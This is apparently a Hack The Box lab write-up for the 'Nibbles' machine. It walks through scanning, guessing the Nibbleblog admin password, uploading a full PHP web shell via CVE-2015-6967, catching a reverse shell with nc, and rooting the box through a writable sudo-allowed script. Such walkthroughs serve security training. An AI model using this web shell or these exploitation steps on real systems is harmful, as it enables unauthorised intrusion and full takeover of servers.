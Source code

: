 ```yaml
---
tags:
  - hack
  - linux
---
```


# HTB: [Nibbles](https://app.hackthebox.com/machines/Nibbles)

> [!tip]- Summary with Spoilers
> - This machine was running Nibbleblog version `v4.0.3`, which was vulnerable to an authenticated file upload vulnerability (`CVE-2015-6967`).
> - I exploited the vulnerability to upload a malicious PHP shell and gained initial access as `nibbler`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing the execution of the `monitor.sh` script as `root`.

## Enumerate

```console
$ nmap -nv -sCV -T4 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 11:54 CST
[...]
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.79 seconds

```

The web page mentions something called "nibbleblog" in the HTML comments:

![](_/htb-nibbles-20231811-1.png)

The `/nibbleblog/` URL:

![](_/htb-nibbles-20231811-2.png)

The login page is available at `http://10.10.10.75/nibbleblog/admin.php`. I tried brute-forcing the password for the `admin` user but this happens after a few attempts:

![](_/htb-nibbles-20231811-3.png)

My IP even shows up here:

![](_/htb-nibbles-20231811-4.png)

And then I guessed the password, which was… `nibbles`:

![](_/htb-nibbles-20231811-5.png)

## Exploit

The version of Nibbleblog is v4.0.3, as verified by this README file:

![](_/htb-nibbles-20231811-6.png)

That means the software is vulnerable to an arbitrary file upload per CVE-2015-6967. There's [a PoC available](https://github.com/dix0nym/CVE-2015-6967).

I prepare the following payload:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And trigger the exploit:

```console
$ python3 ./exploit.py --url http://${t}/nibbleblog/ --username admin --password nibbles --payload ~/shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

It works:

![](_/htb-nibbles-20231811-7.png)

Reverse shell:

![](_/htb-nibbles-20231811-8.png)

```console

$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 33576
$ cd /home/nibbler
cd /home/nibbler
$ cat user.txt
cat user.txt
b8b4a7[...]
```

## Escalate

User `nibbler` has `sudo` for a script called `monitor.sh`:

```console
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo sh > personal/stuff/monitor.sh
echo sh > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
078111[...]
```

## Summary

The target is running an unpatched version of its blogging software that includes an authenticated arbitrary file upload vulnerability. The exploit requires valid credentials, but the password was easy to guess. Privilege escalation was simple do to a `sudoers` entry pointing to a file that was writeable by the user, allowing execution of `sh` as the root user.
